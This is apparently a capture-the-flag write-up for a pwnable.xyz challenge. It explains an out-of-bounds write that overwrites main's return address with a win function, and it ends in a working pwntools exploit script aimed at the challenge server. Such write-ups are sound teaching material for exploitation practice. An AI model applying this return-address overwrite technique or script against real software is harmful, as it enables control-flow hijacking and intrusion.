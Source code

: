 The meat of the challenge is this part of code:

![oob](https://i.imgur.com/4mT7e1A.png)  

`rcx` `rdx` and `rax` have our 3 arguments (with this order). 
As we can see, `rcx` and `rdx` are added and the result goes to: `[rbp+rax*8+var_60]`.  
Well, we have complete control of this address because `rax` contains our 3rd argument.  
That means:
* We control **what** we want to write (result = `rdx`+`rcx`)
* We control **where** to write it (`rax`)  
So, we can set the address of `win` function as the return address of `main`.

I set a breakpoint to see the `rbp` value when the result is stored (0x4008c3): **0x7fffffffdf50**  
I set a breakpoint at the ret address of main (0x40090b): **`rsp` = 0x7fffffffdf58**  
`0x7fffffffdf58 - 0x7fffffffdf50 = 0x8` which means if we can make this `[rbp+rax*8+var_60]` have the value `rbp + 0x8`,
we will have overwritten the ret address of main with `win`.  

Quick mafs there: 
> rax*8 - 0x60 =  8   
=> rax*8 - 96 =  8   
=> rax - 12 = 1  
=> rax = 13  

`payload = win_addr + 0 + 13`

```python
#!/usr/bin/python3
from pwn import *

ip = 'svc.pwnable.xyz'
port = 30002
filename = './challenge'

def pwn():
	r = remote(ip, port)
	e = ELF(filename, checksec=False)
	
	win = e.symbols['win']
	num1 = str(win) 
	num2 = ' 0'
	num3 = ' 13'
	payload = num1 + num2 + num3
	r.sendlineafter(':', payload)
	r.sendlineafter(':', 'random')
	r.recvuntil(': ')
	flag = r.recvall().decode('utf8')
	log.success(flag)
	
pwn()
```
